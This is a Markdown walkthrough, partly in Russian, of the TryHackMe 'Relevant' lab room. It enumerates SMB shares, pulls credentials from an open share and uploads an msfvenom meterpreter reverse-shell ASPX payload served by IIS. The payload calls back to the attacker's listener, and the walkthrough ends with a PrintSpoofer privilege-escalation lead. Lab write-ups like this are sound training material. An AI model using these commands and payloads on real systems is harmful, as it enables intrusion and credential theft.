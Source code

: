 https://tryhackme.com/room/relevant
>IP:10.10.118.224

![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250424003100.png)

# Recon
```
sudo nmap -p-  -Pn 10.10.118.224 -O -T4 -sS
```

```
80/tcp    open  http          syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
49663/tcp open  unknown       syn-ack ttl 127
49666/tcp open  unknown       syn-ack ttl 127
49668/tcp open  unknown       syn-ack ttl 127
Running (JUST GUESSING): Microsoft Windows 2012|2016|2008|7 (91%)
```


```
smbclient -L //10.10.118.224/ -N
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
```

![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250424004454.png)

>SMBv1 - ms17-010 

```
nmap -p139,445 10.10.118.224 --script=smb*
```

![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250424005611.png)

```
smbclient  //10.10.118.224/nt4wrksv -N
get passwords.txt
```

![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250424005825.png)

creds
```
Bob - !P@$$W0rD!123
```

```
Bill - Juw4nnaM4n420696969!$$$
```

```
administasrator:123456
```

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://10.10.118.224/FFUZ -ic -c
```

Веб приложении пустое!
![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250424015725.png)
# Exploit's

Исходя из высшее указанной уязвимости я ее раскрутить не смог)
```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

```
searchsploit ms17-010
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                               | windows/remote/42315.py
```

![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250427053702.png)
exec через cme не отработал как и подключение по RPD

```
49663/tcp open     http    Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.134.170 LPORT=1337 -f aspx > shell.aspx
```

```
smbclient  //10.10.108.47/nt4wrksv -N
Try "help" to get a list of possible commands.
smb: \> put shell.aspx 
putting file shell.aspx as \shell.aspx (2.0 kb/s) (average 2.0 kb/s)
```

```
use exploit/multi/handler 
set Lhost tun0
set lport 1337
set payload windows/x64/meterpreter/reverse_tcp
run
```

http://10.10.108.47:49663/nt4wrksv/shell.aspx
![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250427064126.png)
# LPE
![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250427065159.png)
```
c:\>whoami /priv | findstr /i "Impersonate"
whoami /priv | findstr /i "Impersonate"
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```
# printspoofer
https://github.com/dievus/printspoofer
![relevant](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/relevant/screenshots/20250427071722.png)